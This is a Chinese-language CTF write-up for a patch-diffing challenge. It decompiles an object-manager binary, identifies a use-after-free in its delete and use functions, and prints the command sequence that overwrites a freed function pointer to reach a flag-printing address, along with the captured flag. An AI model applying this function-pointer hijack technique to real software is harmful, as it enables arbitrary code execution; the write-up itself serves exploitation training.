

# 系统层漏洞利用与逆向分析-安全补丁对比分析-G3 WriteUp



Bindiff分析比对发现：

v1与v2的0x00401417地址处的函数存在差异
v1的0x00401525与v2的0x00401535地址处的函数存在差异

v1未打补丁函数反编译结果：

```c
void FUN_00401417(uint param_1)

{
  if ((((int)param_1 < 0) || (7 < (int)param_1)) || ((&DAT_00404140)[(int)param_1] == '\0')) {
    puts("bad id");
  }
  else {
    free(*(void **)(&DAT_004040c0 + (long)(int)param_1 * 8));
    printf("deleted obj %d\n",param_1);
  }
  return;
}

void FUN_00401525(int param_1)

{
  if ((param_1 < 0) || (7 < param_1)) {
    puts("bad id");
  }
  else {
    (*(code *)**(undefined8 **)(&DAT_004040c0 + (long)param_1 * 8))();
  }
  return;
}
```

查找调用可得主逻辑代码（部分已重命名），补丁分别在`delete`和`use`：

```c
undefined8 FUN_00401570(void)

{
  int execute_result;
  char *pcVar1;
  undefined8 len;
  uint id;
  char buff [128];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("obj-mgr v1 -- commands: create <id>, delete <id>, alloc_data <id> <hex>, use <id>, quit");
  while( true ) {
    while( true ) {
      while( true ) {
        while( true ) {
          while( true ) {
            pcVar1 = fgets(buff,0x80,stdin);
            if (pcVar1 == (char *)0x0) {
              return 0;
            }
            execute_result = __isoc99_sscanf(buff,"create %d",&id);
            if (execute_result != 1) break;
            create(id);
          }
          execute_result = __isoc99_sscanf(buff,"delete %d",&id);
          if (execute_result != 1) break;
          delete(id);
        }
        execute_result = __isoc99_sscanf(buff,"alloc_data %d %llx",&id,&len);
        if (execute_result != 2) break;
        alloc_data(id,len);
      }
      execute_result = __isoc99_sscanf(buff,"use %d",&id);
      if (execute_result != 1) break;
      use(id);
    }
    execute_result = strncmp(buff,"quit",4);
    if (execute_result == 0) break;
    puts("unknown command");
  }
  return 0;
}
```

这是一个简单的交互式程序，提供了四个命令，大致如下：
- create <id>：在表1创建一个对象，id范围为0~7
- delete <id>：在表1删除一个对象，id范围为0~7
- alloc_data <id> <hex>：在表2创建一个对象并写入数据，id范围为0~7，hex为数据的十六进制表示
- use <id>：取出对应id对象的函数指针调用

所以v1版本存在一个UAF漏洞，攻击者可以通过delete删除对象后，利用alloc_data创建一个新的对象覆盖原来的函数指针，然后通过use调用覆盖后的函数指针，从而实现任意代码执行。

payload构造与结果如下：

```
create 1
created obj 1
delete 1
deleted obj 1
alloc_data 1 0x004012b6
alloc_data 1 = 0x4012b6
use 1
vmc{BJYzu14cV1kBAq2hpgFN7gQyoZ7ySZnr}
```

在`create 1`通过`malloc`分配内存并`delete 1`后，id为1的对象被删除，但指向其内存块的指针仍然存在于表中。`alloc_data 1 0x004012b6`通过`malloc`分配相同大小内存时会在之前被`delete`的地址分配数据。然后`use 1`调用未释放的函数指针，执行了`0x004012b6`地址处的代码。